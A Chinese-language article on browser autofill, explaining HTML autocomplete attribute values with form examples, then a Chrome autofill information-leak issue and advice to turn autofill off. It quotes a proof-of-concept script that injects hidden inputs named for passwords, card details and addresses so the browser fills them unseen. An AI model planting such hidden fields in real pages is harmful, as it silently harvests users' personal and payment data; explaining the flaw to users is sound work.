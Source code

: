# 浏览器安全机制

# AutoComplete: 自动填充

自动填充（Autofill ）是个非常重要的特性，它能帮助用户节省很多填写表单的时间，Google 也曾调查得出过结论[users complete forms up to 30% faster](https://developers.google.com/web/updates/2015/06/checkout-faster-with-autofill?hl=en)。我们首先来讨论下自动填充的工作原理，以及如何构建跨浏览器的自动填充表单。

早年各个浏览器之间对于自动填充并没有统一的标准，后来 HTML5 标准中加入了对于`autocomplete`属性的支持，以协调浏览器对于表单域的识别。最初`autocomplete`属性仅支持`on`与`off`两种取值，默认情况下是会启动自动填充功能以方便浏览器会将用户提交过的表单值记录下来以便复用。后续 HTML 标准中允许加入更多的[标识值](https://html.spec.whatwg.org/multipage/forms.html#autofill)，这些标识值会更加精确地告诉浏览器应将哪些记录值对应到哪些表单。譬如我们经常需要在网页上填写地址信息，如果我们希望浏览器能够记录下常用地址信息并且自动补全，那么可以使用如下声明方式：

```
<textarea name="shipping-address" autocomplete="shipping street-address"></textarea>
<input type="text" name="shipping-city" autocomplete="shipping address-level2">
<input type="text" name="shipping-state" autocomplete="shipping address-level1">
<input type="text" name="shipping-country" autocomplete="shipping country-name">
<input type="text" name="shipping-postal-code" autocomplete="shipping postal-code">
```

其他常见的自动填充的使用场景还包括电话号码、邮箱地址、即时通信账户等，完整的自动填充标识声明规范为：

```
[section-](optional) [shipping|billing](optional) [home|work|mobile|fax|pager](optional) [autofill field name]
```

其中`[home|work|mobile|fax|pager]`仅被用于电话、邮箱等场景。而完整的应用场景譬如是填写收货地址的收件人电话时：

```
<label for="foo">Mobile phone for delivery</label>
<input type="text" name="foo" id="foo" autocomplete="section-red shipping mobile tel">
```

最后，我们来看下自动填充在笔者电脑上的现实效果： ![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/E2941AAA-E9DC-4A9A-AA10-8506044FBBB2.png)

## 安全威胁

自动填充是个非常方便地浏览器特性，不过该特性在 Chrome 上也会存在一定的信息泄露的风险。Chrome 最近才修复了某个久负盛名[漏洞](https://yoast.com/autocomplete-security/)。简单而言，黑客能够利用自动填充窃取你并不想提交给该网站的信息，就如下面这个动图：

![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/1-WChv_tXK8rqUASVNxrqNSw.gif)

Github 用户 [haampie](https://gist.githubusercontent.com/haampie/3ba6ebb5fd9f71d2f8e9fb841e52740d/raw/d2278671539ab5987a184603b0b3dd9942ba66e0/inject.js) 使用如下脚本演示了该漏洞：

```js
var autocompletes = [
  "name",
  "honorific-prefix",
  "given-name",
  "additional-name",
  "family-name",
  "honorific-suffix",
  "nickname",
  "username",
  "new-password",
  "current-password",
  "organization-title",
  "organization",
  "street-address",
  "address-line1",
  "address-line2",
  "address-line3",
  "address-level4",
  "address-level3",
  "address-level2",
  "address-level1",
  "country",
  "country-name",
  "postal-code",
  "cc-name",
  "cc-given-name",
  "cc-additional-name",
  "cc-family-name",
  "cc-exp",
  "cc-exp-month",
  "cc-exp-year",
  "cc-csc",
  "cc-type",
  "transaction-currency",
  "transaction-amount",
  "language",
  "bday",
  "bday-day",
  "bday-month",
  "bday-year",
  "sex",
  "url",
  "photo",
  "tel",
  "tel-country-code",
  "tel-national",
  "tel-area-code",
  "tel-local",
  "tel-local-prefix",
  "tel-local-suffix",
  "tel-extension",
  "impp"
];

emailField.addEventListener("focus", function() {
  var wrap = autocompletes.reduce(function(wrapper, field) {
    var input = document.createElement("input");

    // Make them not focussable
    input.tabIndex = -1;
    input.autocomplete = field;

    wrapper.appendChild(input);
    return wrapper;
  }, document.createElement("div"));

  // Hide the wrapper
  wrap.classList.add("hidden");
  form.appendChild(wrap);

  // Inject the autocompletes once
  this.removeEventListener("focus", arguments.callee);
});
```

作者是建议大家关闭 Chrome 的自动填充功能，主要步骤为：

* 进入 Chrome 设置：`chrome://settings/autofill`
* 关闭当前模态窗口
* 反选自动填充选项

![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/1-NKyNK5fQWXeLHLCOD_ZDaA.png)
